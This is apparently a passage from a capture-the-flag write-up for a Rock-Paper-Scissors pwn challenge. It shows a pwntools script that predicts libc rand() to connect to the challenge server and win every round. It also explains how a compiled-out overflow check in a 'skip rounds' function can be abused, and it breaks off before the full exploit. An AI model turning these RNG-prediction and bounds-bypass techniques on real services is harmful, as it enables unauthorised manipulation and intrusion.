 `rand()` is [predictable](https://github.com/Naetw/CTF-pwn-tips#predictable-rngrandom-number-generator), and we can win every round of Rock-Paper-Scissors with 100% accuracy:

```python
from pwn import *
context.binary = 'game'
from ctypes import CDLL
clib = CDLL('libc.so.6')
clib.srand(0)
ARRAY_OF_PLAYS_MAXSIZE = 170
array_of_plays = [clib.rand()%3 for _ in range(ARRAY_OF_PLAYS_MAXSIZE)]
current_play = 0

r = remote('cop.ichsa.ctf.today', 8011)
def choose(opt: int):
    r.recvuntil('[ ]\b\b')
    r.sendline(str(opt))
def win_round():
    global current_play
    choose(2)
    r.recvuntil('[ ]\b\b')
    cpu_play = array_of_plays[current_play]
    current_play += 1
    user_play = {0:1, 1:2, 2:0}[cpu_play]+1
    r.sendline(str(user_play))
```

Unfortunately, we'll never obtain the flag by just winning normal rounds, because the option to obtain the flag requires `4294967295 Points`. 

This is where `Skip N Rounds` comes into play. The code for `skip_n_rounds()` seems safe enough:

```c
printf("| You chose to skip %u rounds\n", rounds_to_skip);
// Check for uint8_t integer overflow
if(OVERFLOW_CHECK(rounds_to_skip,ARRAY_OF_PLAYS_MAX_SIZE))
    SET_STATUS_TO_FALSE_AND_BREAK(status)
if(game_ctx->current_play + rounds_to_skip > ARRAY_OF_PLAYS_MAX_SIZE)
    SET_STATUS_TO_FALSE_PRINT_AND_BREAK(status, "| Overflow - Not jumping\n")
CHANGE_GAME_CTX_FIELD(current_play, game_ctx->current_play + rounds_to_skip)
```

The last if-statement in there is bugged as a result of `chalenge.h`:

```c
#ifndef DEBUG_MODE
...
#define POINTS_TO_PRINT_FLAG -1u // UINT64_MAX
#define SET_STATUS_TO_FALSE_PRINT_AND_BREAK(status, msg)
#else
#define POINTS_TO_PRINT_FLAG 0
#define SET_STATUS_TO_FALSE_PRINT_AND_BREAK(status, msg) \
{\
    printf(msg);\
    SET_STATUS_TO_FALSE_AND_BREAK(status)\
}
#endif
```

